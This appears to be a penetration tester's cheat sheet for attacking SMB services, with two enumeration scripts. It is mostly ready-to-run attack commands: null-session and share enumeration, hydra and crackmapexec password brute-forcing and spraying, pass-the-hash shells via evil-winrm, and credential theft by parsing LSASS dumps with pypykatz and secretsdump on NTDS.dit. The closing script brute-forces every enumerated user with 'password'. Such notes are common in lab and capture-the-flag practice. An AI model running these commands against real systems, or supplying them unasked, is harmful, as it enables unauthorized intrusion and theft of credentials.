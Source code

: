 ## Nmap Scanning

- `nmap 10.10.10.10. --script=smb-enum*`
- `nmap 10.10.10.10 --script=smb-vuln*`
- `nmap 10.10.10.10. --script=smb-os*`
- `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.10`


**If have rcpbind**
- `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.23.207IP`
- `rpcclient -U "" <ip>`
- **commands**
  - rpcclient>srvinfo
  - rpcclient>enumdomusers
  - rpcclient>getdompwinfo

**Try first:**
- crackmapexec
	- `cme smb 10.10.10.10 -u {username} -p '{password}' --shares`
		- this will list out the available shares
	- `cme smb 10.10.10.10 -u users -H hashes`
- `smbclient -L \\\\10.10.10.10\\`
- `smbclient \\\\10.10.10.10\\ADMIN$`
- `smbclient \\\\10.10.10.10\\IPC$`
- `smbclient -L \\\\IP\\`
- `smbclient //IP/anonymous`
	- can recursively downlaod all the files here:
	- `smbget -R smb://IP/anonymous`
- `smbclient -L \\\\IP\\anonymous`
- `smbclient -U username \\\\IP\\filename`
- `enum4linux -a -v {ip}`
	- if its a linux box
- with hydra
  - └─# `hydra -l username -P passwordfile.txt smb://IP -t 4 -V`
- metasploit for smb version
- For a shell
	- if have `SeBackupPrivilege` is enabled can use evil-winrm
	- `evil-winrm -i IP -u username -H hash`
- smbmap
	- `smbmap -u {username} -p {password} -d {domain} -H IP`
	- add `-A '(xlsx|docx|txt|xml)' -R` at the end to crawl the users$ share
	- `smbmap -u guest -H IP`
- smbclient & smbclient.py
	- `smbclient -N [\\\\IP\\profiles$](file://IP/profiles$) -c ls | awk '{ print $1 }'`
		- lists everything in the folder
- `GetNPUsers.py domain.local/ -no-pass -userfiles users.txt -dc-ip IP | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
- FFUF `./fuff -w /usr/share/wordlists/dirb/common.txt -u http://IP/FUZZ`
- LSASS Dump
	- `smbclient.py user:'password'@{ip}`
- pypykatz
	- pip3 install pypykatz
	- `pypykatz lsa minidump lsass.DMP`
	- pypykatz to extract and crackmapexec to spray
	- `pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort - u > users` `
- Impacket's secretsdymp.py, wmiexec.py & psexec.py
	- `secretsdump.py -ntds NTDS.dit -system system.hive LOCAL`
 - Searchploit samba verisons

**SMB Commands**
```
- ls
- dir
- cd
- history
- put
- get
- mget
- more
- pwd
- start
- open
- rename
- chmod
- getfacl
- echo
- cancel
- close
- exit
- recurse
- showacls
- vuid
```

# Scripts

## smbver.sh
```
#!/bin/sh
#Author: rewardone
#Description:
# Requires root or enough permissions to use tcpdump
# Will listen for the first 7 packets of a null login
# and grab the SMB Version
#Notes:
# Will sometimes not capture or will print multiple
# lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
```

## smbenum.sh
```
#!/bin/bash
# smbenum 0.2 - This script will enumerate SMB using every tool in the arsenal
# SECFORCE - Antonio Quina
# All credits to Bernardo Damele A. G. <bernardo.damele@gmail.com> for the ms08-067_check.py script

IFACE="eth0"

if [ $# -eq 0 ]
    then
        echo "Usage: $0 <IP>"
        echo "eg: $0 10.10.10.10"
        exit
    else
        IP="$1"
fi

echo -e "\n########## Getting Netbios name ##########"
nbtscan -v -h $IP

echo -e "\n########## Checking for NULL sessions ##########"
output=`bash -c "echo 'srvinfo' | rpcclient $IP -U%"`
echo $output

echo -e "\n########## Enumerating domains ##########"
bash -c "echo 'enumdomains' | rpcclient $IP -U%"

echo -e "\n########## Enumerating password and lockout policies ##########"
polenum $IP

echo -e "\n########## Enumerating users ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-users $IP
bash -c "echo 'enumdomusers' | rpcclient $IP -U%"
bash -c "echo 'enumdomusers' | rpcclient $IP -U%" | cut -d[ -f2 | cut -d] -f1 > /tmp/$IP-users.txt

echo -e "\n########## Enumerating Administrators ##########"
net rpc group members "Administrators" -I $IP -U%

echo -e "\n########## Enumerating Domain Admins ##########"
net rpc group members "Domain Admins" -I $IP -U%

echo -e "\n########## Enumerating groups ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-groups $IP

echo -e "\n########## Enumerating shares ##########"
nmap -Pn -T4 -sS -p139,445 --script=smb-enum-shares $IP

echo -e "\n########## Bruteforcing all users with 'password', blank and username as password"
hydra -e ns -L /tmp/$IP-users.txt -p password $IP smb -t 1
rm /tmp/$IP-users.txt
```
